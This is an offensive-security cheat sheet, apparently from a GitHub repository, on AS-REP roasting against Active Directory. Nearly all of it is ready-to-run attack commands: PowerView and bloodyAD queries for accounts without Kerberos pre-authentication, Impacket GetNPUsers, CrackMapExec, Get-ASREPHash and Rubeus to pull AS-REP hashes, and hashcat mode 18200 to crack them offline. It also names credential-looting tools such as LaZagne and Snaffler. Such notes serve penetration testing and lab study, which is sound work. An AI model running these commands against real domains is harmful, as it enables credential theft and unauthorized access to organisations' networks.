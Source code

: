 ### Occurs when a user account has the privilege "Does not require Pre-Authentication" set.

### This means that the account does not need to provide valid identification before requesting a Kerberos Ticket on the specified user account.

## Requirements:

### Accounts with the attribute DONT_REQ_PREAUTH ( PowerView > Get-DomainUser -PreauthNotRequired -Properties distinguishedname -Verbose )

#### Impacket-GetNPUsers.py domain.com\john.doe -no-pass (Retrieves a TGT)

### You can also do:

#### 1) Gather domain accounts in a list

#### 2) python3 Impacket-GetNPUsers.py -dc-ip DC_IP DOMAIN/USER -outputfile /tmp/list.txt

# Enumeration (Need domain credentials)

## Windows

 - Get-DomainUser -PreauthNotRequired -verbose (Powerview)

## Linux 

 - bloodyAD -u user -p 'totoTOTOtoto1234*' -d crash.lab --host 10.100.10.5 get search --filter '(&(userAccountControl:1.2.840.113556.1.4.803:=4194304)(!(UserAccountControl:1.2.840.113556.1.4.803:=2)))' --attr sAMAccountName  

## Method: Impacket GetNPUsers

 - python GetNPUsers.py jurassic.park/ -usersfile usernames.txt -format hashcat -outputfile hashes.asreproast (Try all the usernames in usernames.txt)

 - python GetNPUsers.py jurassic.park/triceratops:Sh4rpH0rns -request -format hashcat -outputfile hashes.asreproast (Use domain creds to extract targets and target them)

## Alternate Method: CrackMapExec

 -  crackmapexec ldap 10.0.2.11 -u 'username' -p 'password' --kdcHost 10.0.2.11 --asrep

## Alternate Method: ASREPRoast powershell module https://github.com/HarmJ0y/ASREPRoast

 - Get-ASREPHash -Username VPN114user -verbose

### More tools:

#### 1) Snaffler

#### 2) Lazagne

#### 3) Seatbelt

# Asreproasting

| Command                                                      | Description                                                  |
| ------------------------------------------------------------ | ------------------------------------------------------------ |
| `.\Rubeus.exe asreproast /outfile:asrep.txt`                 | Used to perform the Asreproast attack and save the extracted tickets to a file. |
| `hashcat -m 18200 -a 0 asrep.txt passwords.txt --force`      | Uses `hashcat` to crack AS-REP hashes that were saved in a file. |

